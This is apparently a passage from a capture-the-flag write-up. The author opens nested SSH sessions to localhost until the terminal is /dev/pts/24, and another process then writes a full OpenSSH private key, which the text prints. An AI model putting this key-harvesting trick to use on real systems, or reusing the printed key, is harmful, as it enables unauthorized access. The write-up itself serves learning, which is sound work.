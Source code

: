 ```bash
╭─malo@flossy ~/.ssh 
╰─$ mv id_rsa.pub authorized_keys

```
{: .nolineno}
{: .nolineno}

Now I checked my tty status where I am I get this →

```bash
╭─malo@flossy ~/.ssh 
╰─$ tty
/dev/pts/0
```
{: .nolineno}
{: .nolineno}

Now I ssh it on value 0 and the tty value also come as 1 →

```bash
╭─malo@flossy ~ 
╰─$ ssh 0
Linux flossy 6.1.0-10-amd64 #1 SMP PREEMPT_DYNAMIC Debian 6.1.37-1 (2023-07-03) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Tue Oct 31 10:28:01 2023 from 127.0.0.1
╭─malo@flossy ~ 
╰─$ tty
/dev/pts/1
```
{: .nolineno}
{: .nolineno}

so like wise I tried it till it became `/dev/pts/24` and I waited for few secands and I get the private keys like this →

```bash
╭─malo@flossy ~ 
╰─$ tty
/dev/pts/24
╭─malo@flossy ~ 
╰─$ -----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABlwAAAAdzc2gtcn
NhAAAAAwEAAQAAAYEAlfKkxqQRaakvwCsUmqbXFm0cdI4zkp9UcejsdWhZKbuq+9l8l6tP
Nic4xIoq1S++4Xlj8acA9oJG3yFSgwsBNIaqAJq1zxSpDnzBBpSIqZk2OmkHw8BNBth98D
3RKB5d1SOq0pNiBk4dtQ/QGgd7S30oHNlqF524Nf4jCJxkMLUk527Ga+cjPmM068DtOZMF
xfY/gWrnjk44tigt4QP4hkmMEtshPps4SF6dm544FYghYs+rgCH9tx+DfUl7ZFLnBviGL9
RzN7yQLUV/BPFod8SPihd/s7bSMGfBvopCWFcueL0xAd22Q7CU1jSg4W6+aSfbCSRND3ik
tz/SsWN2/RR2H+MQxB11J5qvLFxq291B0Znoi5sgARZUihDihjhPyVL0dco2wrQtL6ey2B
edRtX24GejoGuvdqd3/qHi5R35sZ4zcUCEldNwq0aC/b3EU/cmu16nmDuhJZpT2ILj35cr
ng8Faf39ZAeIRFKsyfibnRMxoBwLkWWyEs8h2APLAAAFiGZJHbxmSR28AAAAB3NzaC1yc2
EAAAGBAJXypMakEWmpL8ArFJqm1xZtHHSOM5KfVHHo7HVoWSm7qvvZfJerTzYnOMSKKtUv
vuF5Y/GnAPaCRt8hUoMLATSGqgCatc8UqQ58wQaUiKmZNjppB8PATQbYffA90SgeXdUjqt
KTYgZOHbUP0BoHe0t9KBzZaheduDX+IwicZDC1JOduxmvnIz5jNOvA7TmTBcX2P4Fq545O
OLYoLeED+IZJjBLbIT6bOEhenZueOBWIIWLPq4Ah/bcfg31Je2RS5wb4hi/Ucze8kC1Ffw
TxaHfEj4oXf7O20jBnwb6KQlhXLni9MQHdtkOwlNY0oOFuvmkn2wkkTQ94pLc/0rFjdv0U
dh/jEMQddSearyxcatvdQdGZ6IubIAEWVIoQ4oY4T8lS9HXKNsK0LS+nstgXnUbV9uBno6
Brr3and/6h4uUd+bGeM3FAhJXTcKtGgv29xFP3Jrtep5g7oSWaU9iC49+XK54PBWn9/WQH
iERSrMn4m50TMaAcC5FlshLPIdgDywAAAAMBAAEAAAGAOMcNhJfYbhFdnt7RKPQWyoubND
kqJxFEqPNBIf3WkTpZ9o42Irn/vuogES+eI2Y2WWsdIIITl8PhsRiNhUgz9x8snRj30ccp
cm5jqqmwi8OTaI+fnIwivn5YRZEqsw24iv2774tWGTwX/JjVvB1sHrvv5eifRvz2JR+rRV
XujBDzPdzQrkfxrOxkvAYr7VqR25EwH8GKl3Rf/f19zc+ymaqcqwEld+7PY3vMIwJIi0Km
```